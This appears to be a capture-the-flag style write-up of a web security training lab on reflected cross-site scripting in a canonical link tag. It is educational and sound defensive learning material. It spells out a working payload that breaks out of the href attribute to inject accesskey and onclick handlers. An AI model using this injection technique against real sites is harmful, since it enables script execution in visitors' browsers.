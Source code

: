 
# Reflected XSS in canonical link tag

This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

ALT+SHIFT+X
CTRL+ALT+X
Alt+X

Please note that the intended solution to this lab is only possible in Chrome.

---------------------------------------------

References: 

- https://portswigger.net/web-security/cross-site-scripting/contexts

- https://portswigger.net/research/xss-in-hidden-input-fields








![img](images/Reflected%20XSS%20in%20canonical%20link%20tag/1.png)
![img](images/Reflected%20XSS%20in%20canonical%20link%20tag/2.png)
![img](images/Reflected%20XSS%20in%20canonical%20link%20tag/3.png)

---------------------------------------------

The page allows to post comments:



![img](images/Reflected%20XSS%20in%20canonical%20link%20tag/4.png)


We find the link with 'rel="canonical"' in the head section of the HTML page:



![img](images/Reflected%20XSS%20in%20canonical%20link%20tag/5.png)


We would like to turn it to:

```
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

In the /post endpoint it is necessary to send a correct postId, but it is possible to add more parameters which change the content of the href attribute:



![img](images/Reflected%20XSS%20in%20canonical%20link%20tag/6.png)


A correct payload:

```
/post?postId=1&a=b'accesskey='X'onclick='alert(1)
```






![img](images/Reflected%20XSS%20in%20canonical%20link%20tag/7.png)
![img](images/Reflected%20XSS%20in%20canonical%20link%20tag/8.png)
